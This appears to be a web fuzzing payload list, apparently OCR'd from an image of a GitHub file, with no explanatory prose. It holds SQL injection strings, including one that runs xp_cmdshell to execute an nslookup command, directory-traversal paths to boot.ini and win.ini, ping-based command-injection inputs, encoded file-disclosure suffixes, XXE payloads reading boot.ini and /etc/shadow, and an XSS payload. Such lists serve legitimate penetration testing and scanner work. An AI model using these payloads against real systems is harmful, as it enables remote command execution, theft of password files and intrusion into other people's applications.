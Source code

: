 procedure
order by
asc
desc
delete
distinct
having
truncate
replace
handler
bfilename
exec xp
exec sp
t'exec master..xp_cmdshell 'nslookup www.google.com'--
to_timestamp_tz
tz_offset
char%4039%41%2b%40SELECT
count(/child::node())
../../../../../../../../../../boot.ini
../../../../../../../../../../windows/win.ini
..\..\..\..\..\..\..\..\..\..\windows\win.ini
| ping -i 30 127.0.0.1 |
| ping -n 30 127.0.0.1 |
echo 111111
# known cross platform source Code, file disclosure attack patterns - append after file or dir path
%70
.%E2%73%70
%2e0
%2e
.
?*
%2f
%5c
"<?xml version=""1.0"" encoding=""ISO-8859-1""?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM ""file://c:/boot.ini"">]><foo>&xxe;</foo>"
"<?xml version=""1.0"" encoding=""ISO-8859-1""?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM ""file:////etc/shadow"">]><foo>&xxe;</foo>"
"<xml SRC=""xsstest.xml"" ID=I></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>"
other
